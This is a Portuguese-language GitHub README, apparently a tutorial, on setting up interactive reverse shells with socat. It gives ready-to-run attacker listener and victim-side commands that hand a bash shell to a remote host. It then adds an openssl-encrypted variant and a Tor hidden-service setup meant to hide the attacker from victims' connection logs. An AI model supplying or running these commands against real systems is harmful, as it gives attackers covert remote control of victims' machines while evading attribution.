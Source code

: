 <p align="center">

<H3 align="center"> Shell reverso interativo e criptografado 
<H3 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso, precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados através do um terminal. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta. Assim permite que o atacante abra uma porta de escuta em seu servidor e através dessa porta receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Existem vários tipos de [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), mas utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Atacante:

```shell

# Servidor

PORT="1111"

openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"

socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```

Vítima:

```shell
# CLiente
HOST=localhost
PORT=80
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid
```

## Bônus

### Shell reverso utilizando a rede tor

Em sistemas robustos são guardados logs de conexões. Desta forma o endereço de ip da atacante seria facimente descoberto. Para tornar o endereço do atacante desconhecido, o atacante precisa ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa possuir um servidor na rede tor, para isso a o atacante precisa adicionar as seguintes linhas ao arquivo <strong>/etc/tor/torrc</strong>

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```

Reiniciar o tor:

```
systemctl restart tor
```

Para descobrir o host do atacante:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo desse tipo
dominio-do-atacante.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=dominio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor, mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Mas agora é extremamente difícil para vitima identificar o atacante.

Abaixo nas referências, alguns caras muito respeitados no assunto de cyber security:

## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
